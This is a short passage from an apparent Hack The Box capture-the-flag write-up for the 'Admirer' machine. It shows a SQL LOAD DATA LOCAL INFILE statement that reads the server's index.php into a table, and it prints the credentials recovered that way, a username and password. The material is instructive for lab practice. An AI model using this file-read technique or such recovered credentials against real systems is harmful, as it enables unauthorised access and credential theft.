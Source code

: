 Bu there is nothing interesting:

![admin_tasks.php in SQL table](/assets/img/htb/machines/linux/easy/admirer/arg.png)

Looking at `../index.php`, we can see there are new credentials:

{% highlight sql %}
LOAD DATA LOCAL INFILE '../index.php'
INTO TABLE TEMPDB.backup
FIELDS TERMINATED BY "\n"
{% endhighlight %}

![new creds](/assets/img/htb/machines/linux/easy/admirer/new-pass.png)

- **username**: `waldo`
- **password**: `&<h5b~yK3F#{PaPB&dA}{H>`
